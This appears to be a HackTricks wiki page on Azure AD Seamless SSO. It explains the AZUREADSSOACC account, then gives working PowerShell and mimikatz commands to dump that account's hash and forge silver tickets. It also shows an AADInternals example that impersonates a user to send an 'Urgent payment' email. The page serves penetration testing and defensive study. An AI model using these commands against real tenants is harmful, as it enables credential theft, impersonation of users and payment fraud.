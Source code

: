 # Seamless SSO

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Basic Information

Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) automatically **signs users in when they are on their corporate devices** connected to your corporate network. When enabled, **users don't need to type in their passwords to sign in to Azure AD**, and usually, even type in their usernames. This feature provides your users easy access to your cloud-based applications without needing any additional on-premises components.

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Basically Azure AD Seamless SSO **signs users** in when they are **on a on-prem domain joined PC**.

It's supported by both [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) and [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO is using **Kerberos** for authentication. When configured, Azure AD Connect creates a **computer account called AZUREADSSOACC** in on-prem AD. The password of the AZUREADSSOACC account is **sent as plain-text to Azure AD** during the configuration.

The **Kerberos tickets** are **encrypted** using the **NTHash (MD4)** of the password and Azure AD is using the sent password to decrypt the tickets.

**Azure AD** exposes an **endpoint** (https://autologon.microsoftazuread-sso.com) that acc**e**pts Kerberos **tickets**. Domain-joined machine's browser forwards the tickets to this endpoint for SSO.

### On-prem -> cloud

The **password** of the user **AZUREADSSOACC never changes**. Therefore, a domain admin could compromise the **hash of this account**, and then use it to **create silver tickets** to connect to Azure with **any on-prem user synced**:

```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
 mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```

With the hash you can now **generate silver tickets**:

```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```

To use the silver ticket:

1. Launch _Mozilla Firefox_.
2. Go to **`about:config`** and set the [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) preference to [value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. Navigate to any web application that is integrated with our AAD domain. We will use [Office 365](https://portal.office.com/), which is the most commonly used one.
4. Once at the logon screen, fill in the user name, while leaving the password field empty. Then press TAB or ENTER.

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

#### And thats all! So should be in! <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

#### ~~Creating Kerberos tickets for cloud-only users~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

If the Active Directory administrators have access to Azure AD Connect, they can **set SID for any cloud-user**. This way Kerberos **tickets** can be **created also for cloud-only users**. The only requirement is that the SID is a proper [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Changing SID of cloud-only admin users is now **blocked by Microsoft**.\
For info check [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
